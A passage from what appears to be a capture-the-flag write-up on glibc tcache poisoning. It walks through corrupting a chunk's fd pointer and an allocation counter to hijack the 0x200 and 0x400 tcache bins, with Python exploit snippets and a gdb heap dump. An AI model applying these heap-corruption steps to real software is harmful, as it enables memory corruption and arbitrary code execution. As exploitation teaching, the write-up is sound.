 This will subtract our allocated count with **change** and hence when the next allocation happens , we get allocation on tcache.
You can play around with the offset calculation if you didnt get it yet , its not that tough to understand :).

We now change the fd of our allocated chunk and then get back the libc pointer whose data we can leak.

```py
   add(0x400,p32(0x404030))
   do_work(offset+0x5)
```

We change the allocated_count back to negetive 4 so that we get next allocation on **allocated\_count** itself and repeat the above process to get allocation on another tcache.

```py
    add(0x200,'a') #Get allocation on allocated count
    allocated_count_new1 = heap_base + 0xb91
    tcache_new = heap_base + 0x148  #This time target another tcache of 0x200
    offset_new = (tcache_new - stack)/8
    k = allocated_count_new1 - offset_new
    do_work(k)
    add(0x200,p64(0x404030))
```


As u can see , tcache of 0x200 and 0x400 are successfully populated with our pointers.

```sh
0x405000:	0x0000000000000000	0x0000000000000251
0x405010:	0x0000000000000000	0x0000000000000000
0x405020:	0x0000000000000000	0x0000000000000000
0x405030:	0x0000000000000000	0x0000000000000000
0x405040:	0x0000000000000000	0x0000000000000000
0x405050:	0x0000000000000000	0x0000000000000000
0x405060:	0x0000000000000000	0x0000000000000000
0x405070:	0x0000000000000000	0x0000000000000000
0x405080:	0x0000000000000000	0x0000000000000000
0x405090:	0x0000000000000000	0x0000000000000000
0x4050a0:	0x0000000000000000	0x0000000000000000
0x4050b0:	0x0000000000000000	0x0000000000000000
0x4050c0:	0x0000000000000000	0x0000000000000000
0x4050d0:	0x0000000000000000	0x0000000000000000
0x4050e0:	0x0000000000000000	0x0000000000000000
0x4050f0:	0x0000000000000000	0x0000000000000000
0x405100:	0x0000000000000000	0x0000000000000000
0x405110:	0x0000000000000000	0x0000000000000000
0x405120:	0x0000000000000000	0x0000000000000000
0x405130:	0x0000000000000000	0x0000000000000000
0x405140:	0x0000000000000000	0x0000000000405da0 -> 0x200 tcache
0x405150:	0x0000000000000000	0x0000000000000000
0x405160:	0x0000000000000000	0x0000000000000000
0x405170:	0x0000000000000000	0x0000000000000000
0x405180:	0x0000000000000000	0x0000000000000000
0x405190:	0x0000000000000000	0x0000000000000000
0x4051a0:	0x0000000000000000	0x0000000000000000
0x4051b0:	0x0000000000000000	0x0000000000000000
0x4051c0:	0x0000000000000000	0x0000000000000000
0x4051d0:	0x0000000000000000	0x0000000000000000
0x4051e0:	0x0000000000000000	0x0000000000000000
0x4051f0:	0x0000000000000000	0x0000000000000000
0x405200:	0x0000000000000000	0x0000000000000000
0x405210:	0x0000000000000000	0x0000000000000000
0x405220:	0x0000000000000000	0x0000000000000000
0x405230:	0x0000000000000000	0x0000000000000000
0x405240:	0x0000000000000000	0x0000000000405780 -> 0x400 tcache

```